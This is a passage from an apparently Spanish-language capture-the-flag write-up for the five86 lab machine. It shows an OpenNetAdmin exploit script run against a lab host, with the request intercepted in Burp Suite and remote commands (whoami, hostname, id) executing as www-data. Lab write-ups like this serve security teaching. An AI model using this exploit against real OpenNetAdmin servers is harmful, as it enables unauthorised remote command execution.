 Bueno ahora vamos a interceptar la respuesta al darle al `ENTER` `Burpsuite` ya lo habra interceptado

```bash
❯ ./OpenNetAdmin.sh http://192.168.1.102/ona/
$ whoami
```

Y esta es la respuesta

![](/assets/images/vh-writeup-five86/burp1.png)

Si quitamos el `Intercept` y regresamos ala consola vemos que el comando se ejecuta

```bash
❯ ./OpenNetAdmin.sh http://192.168.1.102/ona/
$ whoami
www-data
$ 
```

Estamos en la maquina victima

```bash
$ hostname -I
192.168.1.102 2806:102e:10:ecc:20c:29ff:fedd:f567 
$ 
```

Si con `Burpsuite` modificamos el comando a `id` vemos que funciona

![](/assets/images/vh-writeup-five86/burp2.png)
